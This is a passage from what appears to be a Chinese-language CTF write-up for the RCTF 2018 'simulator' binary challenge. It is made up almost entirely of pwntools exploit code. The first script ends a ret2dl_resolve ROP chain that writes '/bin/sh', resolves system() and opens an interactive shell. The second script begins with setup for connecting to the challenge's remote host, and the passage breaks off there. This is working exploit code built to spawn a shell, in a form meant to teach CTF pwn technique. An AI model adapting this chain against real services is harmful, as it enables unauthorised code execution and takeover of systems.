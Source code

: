     	# step 2.2: dl_resolve
    	sl('END')
    	payload = pwn_rop.retfill(offset)
    	payload += pwn_rop.call(fgets_plt, addr_bss, 100, stdin_addr)
    	payload += pwn_rop.dl_resolve_call(addr_bss + 20, addr_bss)
    	sla('comment: ',payload)
    
    	payload = pwn_rop.string('/bin/sh')
    	payload += pwn_rop.fill(20, payload)
    	payload += pwn_rop.dl_resolve_data(addr_bss + 20, 'system')
    	payload += pwn_rop.fill(100, payload)
    	sl(payload)
    	
    	p.interactive()
    
    hack()
### 3.2 使用DynElf AC代码 ###
    from pwn import *
    from ctypes import *
    import os
    import roputils as rop
    from hashlib import sha256
    
    remote_addr = "simulator.2018.teamrois.cn"
    remote_port = 3131
    
    local_addr = "127.0.0.1"
    local_port = 1807
    
    pc = "./simulator"
    pwn_elf = ELF(pc)
    pwn_rop = rop.ROP(pc)
    
    
    uselibc = 1 #0 for no,1 for i386,2 for x64
    local = 0
    haslibc = 0
    atta = 0
    
    if uselibc == 2:
    	context.arch = "amd64"
    else:
    	context.arch = "i386"
    
    if uselibc ==2 and haslibc == 0:
    	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
    else:
    	if uselibc == 1 and haslibc == 0:
    		libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')
    	else:
    		libc = ELF('./libc.so.6')
    
    if local == 1:
    	if haslibc:
    		p = process(pc,env={'LD_PRELOAD':'./libc.so.6'})
    	else:
    		p = process(pc)
    elif local == 0:
    	p = remote(remote_addr,remote_port)
    	if haslibc:
    		libc = ELF('./libc.so.6')
    else:
    	p = remote(local_addr,local_port)
    	if haslibc:
    		libc = ELF('./libc.so.6')
    